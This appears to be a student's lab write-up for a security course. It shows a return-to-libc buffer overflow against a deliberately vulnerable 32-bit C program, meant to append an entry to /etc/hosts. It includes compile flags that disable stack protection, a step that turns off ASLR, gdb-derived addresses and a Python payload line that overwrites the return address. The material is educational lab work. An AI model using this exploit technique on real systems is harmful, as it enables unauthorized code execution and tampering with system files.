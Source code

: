 # Lab #1,21110058, CAO KHẢI MINH, INSE330380E_02FIE

# Task 1: **Software buffer overflow attack**
**Question 1**: Compile asm program and C program to executable code. 

\- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 

 You are free to choose Code Injection or Environment Variable approach to do. 

\- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

## **I. Set up the C program:**

### 1. Create a C file named `vuln.c`:
```sh
nano vuln.c
```
![image-20241104091628712](./SecLab/image-20241104091628712.png)<br>

After which use `crtl` +` o` to save ad `crtl`+`x` to exit.

### 3. Compile the newly written C file with `gcc`:

```sh
gcc vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2
```

</br>

## **II. Set up the NASM program:**

### 1. Create a NASM file named `lab1.nasm`:

```sh
nano attackCode.nasm
```

<img width="500" alt="Screenshot" src="https://github.com/CKMPeter/Information-Sec/blob/main/SecLab/attackCode.png?raw=true"><br>

After which use `crtl` +` o` to save ad `crtl`+`x` to exit.

### 2. **Compile and Link the newly written NASM file**:

#### a. Compile the file:

```sh
nasm -f elf32 -o lab1.o lab1.nasm
```

**`-f elf32`**: This flag specifies the output format. In this case, it's generating a 32-bit **ELF**

**`-o attackCode.o`**: This specifies the output file's name. The resulting object file will be named `attackCode.o`

</br>

#### b. Link the file to an executable:

```sh
ld -m elf_i386 -o lab1 lab1.o
```
</br>

## III. EXECUTE THE ATTACK:

### 1. turn off ASLR (Address Space Layout Randomization):

![image-20241104092449640](./SecLab/image-20241104092449640.png)

### 2. create an environment variable in Linux with the path of file lab1.asm:

![image-20241104092724884](./SecLab/image-20241104092724884.png)

### 3. use gdb:

![image-20241104093358327](./SecLab/image-20241104093358327.png)

0xf7e50db0: Address of libc_system
0xf7e449e0: Address of exit to avoid crashing
0xffffd939: Address of env variable

### 4. Attack File:

```sh
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x39\xd9\xff\xff')")
```

![image-20241104095520665](./SecLab/image-20241104095520665.png)

after doing, so you would use

```
sudo cat /etc/hosts 
```

to see the newly added host.
